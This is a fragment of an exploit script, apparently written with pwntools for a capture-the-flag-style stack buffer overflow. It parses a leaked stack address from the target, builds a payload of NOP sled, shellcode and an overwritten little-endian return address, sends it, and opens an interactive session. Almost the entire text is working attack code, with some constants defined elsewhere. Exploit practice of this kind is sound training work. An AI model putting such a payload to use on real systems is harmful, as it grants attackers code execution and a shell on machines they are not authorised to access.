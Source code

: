 ```
# Get the stack address
res = io.recvlinesS(1)
# print(res)
match = re.search(r"0x[0-9a-fA-F]+", res[0])
stck_addr = match.group(0)
print(f"stack address received: {stck_addr}")

int_stack_addr = int(stck_addr, 16)
print(f"stack address in int: {int_stack_addr}")

int_buffer_addr = int_stack_addr - offset
buffer_addr = hex(int_buffer_addr)
print(f"buffer address in int: {int_buffer_addr}")
print(f"buffer address hex: {buffer_addr}")


# le = p64(int(CANARY, 16), "little")
# be = p64(int(CANARY, 16), endianness="big")
MODULO = 500
NOP_SLED_SIZE = 532  # 16 byte aligned!
NOP_SIZE = NOP_SLED_SIZE + byte_align + 5
# Byte align the shellcode
NOP = b"\x90"
payload = (
    NOP * (BUFF_SIZE - NOP_SIZE - PAYLOAD_SIZE)
    + SHELL_CODE
    + NOP * (NOP_SIZE)
    + p64(int_stack_addr, endianness="little")
)

# TODO: WHY DOES THIS NOT WORK
# payload = (
#     NOP * (BUFF_SIZE - NOP_SIZE - PAYLOAD_SIZE)
#     + NOP * (NOP_SIZE)
#     + SHELL_CODE
#     + p64(int_stack_addr, endianness="little")
# )

# print(f"Payload is: {payload}")
print(f"Payload len is: {len(payload)}")
print(f"Payload len is: {(BUFF_SIZE - NOP_SIZE - PAYLOAD_SIZE)}")


# 0x7ffcac397d6a

# imul = 0x10624DD3
# shr = 0x20  # 32
# sar = 0x5
# sar2 = 0x1F  # 31
# imul2 = 0x1F4  # 500


# io.sendline(payload)
print("____________________________________")
print(f"Sending payload with shellcode")
io.sendline(payload)
# res = io.recvlines(1)
# print(res)
io.interactive()

```
